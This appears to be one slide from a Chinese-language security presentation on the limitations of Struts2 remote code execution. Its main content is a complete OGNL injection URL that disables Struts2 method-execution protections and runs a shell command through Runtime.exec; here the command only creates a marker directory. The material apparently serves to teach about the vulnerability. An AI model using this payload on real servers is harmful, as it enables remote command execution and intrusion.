

# struts2远程代码执行的局限
/action?foo=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('mkdir /tmp/PWNAGE'))(meh)&z[(foo)('meh')]=true
61